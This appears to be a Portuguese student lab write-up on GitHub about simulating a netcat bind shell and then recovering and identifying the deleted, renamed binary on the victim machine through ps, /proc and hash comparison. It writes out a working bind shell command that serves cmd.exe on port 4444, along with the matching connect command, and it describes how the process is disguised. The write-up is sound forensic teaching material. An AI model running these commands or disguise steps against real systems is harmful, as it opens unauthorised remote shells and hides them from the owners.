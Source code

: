 # bind-shell-attack

Nessa atividade foi necessário simular um bind shell attack, e após isso, no computador da vitima, recuperar o arquivo binário deletado desse ataque e analisar esse processo suspeito.

- Nesse ataque de backdoor foi utilizado o netcat, por mais que existam outras maneiras de realizar esse tipom de ataque.

Em um bind shell attack o computador da vítima é capaz de transmitir o executavel do bash, ou cmd, através de uma porta específica, para o computador da pessoa que deseja realizar esse ataque. No caso do netcat o atacante necessita fazer com que a vítima rode uma linha de comandos, transmitindo o bash para o computador do atacante. No caso do bind shell, o computador da vítima fica esperando que o computador de ataque se conecte ao ip e a porta.

Ex:
  C:\Program Files (x86)\Nmap>ncat -lvp 4444 -e cmd.exe  -> computador da vítima 
  
  nc 192.168.56.1 4444 -> computador de ataque
  
Na atividade o netcat abre a porta tcp 41000 e envia informações para /dev/null do computador da vitima. Além disso ele mascara o nome do programa para "freedom",é colocado no diretorio /tmp(arquivos temporários), e após executado é removido, sobrando apenas o seu processo em execução.

![freedom](https://user-images.githubusercontent.com/44793167/96667221-06003680-132f-11eb-868f-c891f98685aa.jpg)

Após isso, na atividade era necessário utilizar o "nestat -nalp" para verificar a porta que esta aberta e o processo que está ocorrendo naquela porta, porém meu netstat não estava funcionando, mas foi possivel ver o processo em execução através do "ps", com o PID 16725.

![ps](https://user-images.githubusercontent.com/44793167/96667414-7018db80-132f-11eb-8ec3-24d72cb90de8.jpg)

Com o PID do nosso processo duvidoso, foi possível ver diversas informações sobre ele:

![info](https://user-images.githubusercontent.com/44793167/96667592-b5d5a400-132f-11eb-9272-0a0897fbe5ba.jpg)

Com isso, foi possivel ver que o arquivo binário do processo foi apagado, e assim foi necessário recuperar o arquivo binário apagado.

- Utilizando o comando:  cp /proc/16725/exe /tmp/recovered_bin

Para saber se a pessoa que atava o computador da vítima estava utilzando o netcat, podemos comparar as hashes dos dois programas, e assim ver se als são iguais.

![hashes](https://user-images.githubusercontent.com/44793167/96668117-da7e4b80-1330-11eb-9a5b-cfd2679cfcfd.jpg)

E assim sabemos que o processo era o netcat, só que camuflado.

